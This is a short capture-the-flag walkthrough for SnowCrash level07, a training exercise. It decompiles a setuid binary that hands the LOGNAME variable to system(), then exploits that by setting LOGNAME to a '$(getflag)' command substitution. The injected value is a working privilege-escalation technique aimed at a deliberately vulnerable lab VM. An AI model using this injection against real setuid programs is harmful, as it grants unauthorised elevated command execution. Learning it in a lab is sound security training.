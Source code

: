## 1. Connect to level07:

```bash
level06@SnowCrash:~$ su level07
password: *use previously found flag*
```

## 2. See existing files:

```bash
level07@SnowCrash:~$ ls -l
    total 12
    -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

## 3. Locally download the file (on local computer terminal, not VM):

```bash
level07@SnowCrash:~$ scp -P 4242 level07@<your VM's IP address>:/home/user/level07/level07 ~
```

## 4. Use *`Ghidra`* application to convert file into readable code
Once open, look to the left, *Symbol Tree* > *Functions* > *main*
Look at the main and find:
```bash
pcVar1 = getenv("LOGNAME");
asprintf(&local_1c,"/bin/echo %s ",pcVar1);
iVar2 = system(local_1c);
```

## 5. Change LOGNAME value in `env`
```bash
level07@SnowCrash:~$ export LOGNAME='$(getflag)'
```

## 6. Execute `level07` to obtain flag
```bash
level07@SnowCrash:~$ ./level07
```
